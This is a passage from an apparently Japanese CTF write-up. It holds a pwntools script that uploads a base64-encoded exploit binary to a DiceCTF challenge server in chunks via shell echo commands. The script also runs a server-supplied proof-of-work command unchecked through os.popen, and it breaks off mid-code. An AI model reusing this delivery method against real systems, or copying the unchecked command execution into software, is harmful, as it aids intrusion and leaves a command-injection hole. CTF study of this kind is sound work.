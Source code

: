 今回はまだ問題サーバが生きていたからsenderも。
```sender.py
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys

FILENAME = "./exploit"
LIBCNAME = ""

hosts = ("dicec.tf","localhost","localhost")
ports = (31691,12300,23947)
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost 
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker
context(os='linux',arch='amd64')
binf = ELF(FILENAME)
libc = ELF(LIBCNAME) if LIBCNAME!="" else None


## utilities #########################################

def hoge():
  global c
  pass

## exploit ###########################################

def exploit():
  c.recvuntil("Send the output of: ")
  hashcat = c.recvline().rstrip().decode('utf-8')
  print("[+] calculating PoW...")
  hash_res = os.popen(hashcat).read()
  print("[+] finished calc hash: " + hash_res)
  c.sendline(hash_res)

  with open("./exploit.b64", 'r') as f:
    binary = f.read()
  
  progress = 0
  print("[+] sending base64ed exploit (total: {})...".format(hex(len(binary))))
  for s in [binary[i: i+0x80] for i in range(0, len(binary), 0x80)]:
    c.sendlineafter('$', 'echo {} >> exploit.b64'.format(s))
    progress += 0x80
    if progress % 0x1000 == 0:
      print("[.] sent {} bytes [{} %]".format(hex(progress), float(progress)*100.0/float(len(binary))))
  c.sendlineafter('$', 'base64 -d exploit.b64 > exploit')



## main ##############################################

if __name__ == "__main__":
    global c
    
    if len(sys.argv)>1:
      if sys.argv[1][0]=="d":
        cmd = """
          set follow-fork-mode parent
        """
        c = gdb.debug(FILENAME,cmd)
      elif sys.argv[1][0]=="r":
```